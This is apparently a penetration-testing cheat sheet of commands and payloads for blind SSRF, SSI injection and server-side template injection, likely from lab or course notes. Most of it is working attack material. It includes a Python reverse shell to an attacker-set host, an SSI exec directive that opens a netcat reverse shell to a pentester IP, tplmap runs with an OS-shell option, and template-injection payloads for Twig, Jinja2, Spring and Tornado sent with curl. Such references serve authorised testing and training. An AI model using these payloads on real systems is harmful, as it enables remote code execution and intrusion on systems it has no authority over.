 ## Blind SSRF Exploitation Example

|**Command**|**Description**|
|---|---|
|`nc -lvnp 9090`|Starting a netcat listener|
|`echo """<B64 encoded response>""" \| base64 -d`|Decoding the base64 encoded response|
|`export RHOST="<VPN/TUN IP>";export RPORT="<PORT>";python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'`|Reverse shell payload (to be URL encoaded twice)|

## SSI Injection Exploitation Example

| **SSI Directive Payload**                                                                                   | **Description** |
| ----------------------------------------------------------------------------------------------------------- | --------------- |
| `<!--#echo var="DATE_LOCAL" -->`                                                                            | Date            |
| `<!--#printenv -->`                                                                                         | All variables   |
| `<!--#exec cmd="mkfifo /tmp/foo;nc <PENTESTER IP> <PORT> 0</tmp/foo\|/bin/bash 1>/tmp/foo;rm /tmp/foo" -->` | Reverse Shell   |

## SSTI Exploitation Example 1

|**Command**|**Description**|
|---|---|
|`git clone https://github.com/epinna/tplmap.git`|Cloning the tplmap repoistory|
|`cd tplmap`|Navigating to the new directory|
|`pip install virtualenv`|Installing the virtual environment with pip|
|`virtualenv -p python2 venv`|Creating a virtual environment named venv with python2|
|`source venv/bin/activate`|Activating a Python virtual environment, configuring the shell to use the virtual environment's Python interpreter|
|`pip install -r requirements.txt`|Installing dependencies|
|`./tplmap.py -u 'http://<TARGET IP>:<PORT>' -d name=john`|Running tplmap against the target|
|`./tplmap.py -u 'http://<TARGET IP>:<PORT>' -d name=john --os-shell`|Running tplmap with the os-shell option|
|`{{_self.env.registerUndefinedFilterCallback("system")}}{{_self.env.getFilter("id;uname -a;hostname")}}`|Twig RCE payload|

## SSTI Exploitation Example 2

|**Command**|**Description**|
|---|---|
|`curl -X POST -d 'email=${7*7}' http://<TARGET IP>:<PORT>/jointheteam`|Interacting with the remote target (Spring payload)|
|`curl -X POST -d 'email={{_self.env.display("TEST"}}' http://<TARGET IP>:<PORT>/jointheteam`|Interacting with the remote target (Twig payload)|
|`curl -X POST -d 'email={{config.items()}}' http://<TARGET IP>:<PORT>/jointheteam`|Interacting with the remote target (Jinja2 basic injection)|
|`curl -X POST -d 'email={{ [].class.base.subclasses() }}' http://<TARGET IP>:<PORT>/jointheteam`|Interacting with the remote target (Jinja2 dump all classes payload)|
|`curl -X POST -d "email={% import os %}{{os.system('whoami')}}" http://<TARGET IP>:<PORT>/jointheteam`|Interacting with the remote target (Tornado payload)|
|`./tplmap.py -u 'http://<TARGET IP>:<PORT>/jointheteam' -d email=blah`|Automating the exploitation process with tplmap|
